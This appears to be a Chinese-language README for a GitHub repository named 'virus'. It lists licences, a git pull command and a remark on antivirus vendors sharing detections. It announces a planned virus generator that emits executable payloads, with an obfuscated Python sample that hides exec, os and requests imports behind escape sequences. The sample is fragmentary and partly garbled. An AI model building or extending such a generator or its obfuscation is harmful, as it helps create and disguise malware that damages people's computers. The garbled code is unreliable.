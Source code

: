 
# 该程序部分代码由AI生成
使用到的AI:
 - [ChatGPT](https://chatgpt.com)
 - [DeepSeek](https://chat.deepseek.com)
 - [GitHub Copilot](https://github.com/copilot)

# 说明
该程序使用协议为:
 - [NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License)
 - [F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)

基于[F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)和[NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License):
 - 禁止将该程序用于非法行为！
 - 禁止将该程序用于商业行为！
 - 允许修改程序:
   - 将以下代码输入到终端来把项目pull到本地
    ```git pull https://github.com/sqxy090123/virus.git```


# 附加说明
由于各大杀毒软件互通，当病毒第一次被检测到后24h内，其他杀软会陆陆续续检测到

# 分发条件
对于未得到授权的二次分发:
 - 分发后的协议必须包括[F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)和[NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License)
 - 需要标明来源

对于得到授权的二次分发:
 - 需要标明`许可id`
 - 需要标明来源

# [futures.md(未来更新计划)](./blob/master/futures.md)

## 关于未来的病毒生成器
计划使用python制作出.exe程序和.js/.py/.vbs/.cmd/.com等可以执行的代码
例如app.py
```
a = exec
a("b\75__imp\u006frt__\50'\\x6fs')")
a("c=__imp\u006frt__\50'r\\u0065qu\x65sts')")
a("""\
try\72
\40   _\75b\56listdir\50"/")
\u0065xc\x65pt P\rmissionError
""")
```